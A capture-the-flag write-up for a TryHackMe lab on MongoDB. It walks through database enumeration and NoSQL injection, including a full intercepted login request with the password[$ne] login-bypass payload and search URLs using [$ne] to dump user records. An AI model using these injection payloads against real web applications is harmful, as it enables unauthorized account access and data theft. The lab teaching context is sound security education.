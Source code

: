 ## TASK-1  Interact with the MongoDB server to find the flag. What is the flag? 

Use nmap to scan the IP. You will find port <strong>2222</strong> hosting SSH. try to connect to ssh using the credential ```thm:tryhackme```

```bash
ssh thm@MACHINE_IP -p 2222
```

Once you are on the system remotely via SSH, load up the mongo database using the command ```mongo```.<br>
Run the following command to list the databases.

```bash
> show databases
admin   0.000GB
config  0.000GB
flagdb  0.000GB
local   0.000GB
```
The interesting database names -  <b>admin</b> and <b>flagdb</b>. But we will be looking into the flagdb database to get our flag for the first question.<br>
We use the ```use``` command to connect to a specific database in MongoDB, in this case <b>flagdb</b>.

```bash
> use flagdb
switched to db flagdb
```

Now to see the collections inside the flagdb database use the following command.

```bash
> db.getCollectionNames();
[ "flagColl" ]
```

Now we can see that "flagColl" is the collection inside the flagdb databse that might be holding the flag.
Running the below command to list the contents inside the "flagColl" gives us the flag inside.

```bash
> db.flagColl.find()
{ "_id" : ObjectId("618806af0afbc09bdf42bd6a"), "flag" : "THM{REDACTED}" }
```

## TASK-2 Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?

Intercept the POST /login request in the home page of the site. Since we know that the database in use is <b>MongoDB</b>.
We can try to inject some queries which result's to login bypass.

```
POST /login HTTP/1.1
Host: 10.10.54.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://10.10.54.102
DNT: 1
Connection: close
Referer: http://10.10.54.102/login
Cookie: connect.sid=s%3Act9adcXA4grbm68lhw9haiRGZT30XQ7r.Tnmf2P4Sb4meUT4%2B7r1F9d4nchbXnG8iZ6ns%2FUHuGzU
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin&password[$ne]=admin
```

If you are not familiar with MongoDB commands, then let me explain the logic is ```username=admin and password != admin```. The same idea is used here. <br>
This helps us bypass the login page and we successfully login as a privileged user <b>admin</b>.

On the dashboard you can see the flag : ```THM{REDACTED}```


## TASK-3 Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?

Use the same idea here. The search url is ```http://MACHINE_IP/search?username[$ne]=blabla&role=guest```. and you can list all the users with guest roles.
```THM{REDACTED}```

## TASK-4 Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?

Use the same idea here. The search url is ```http://MACHINE_IP/search?username=mcskidy&role[$ne]=blabla```. and you have the flag.
```ID:REDACTED:mcskidy:admin```

<h3><b>That's it for Day-7. Happy Hacking!</b></h3> 

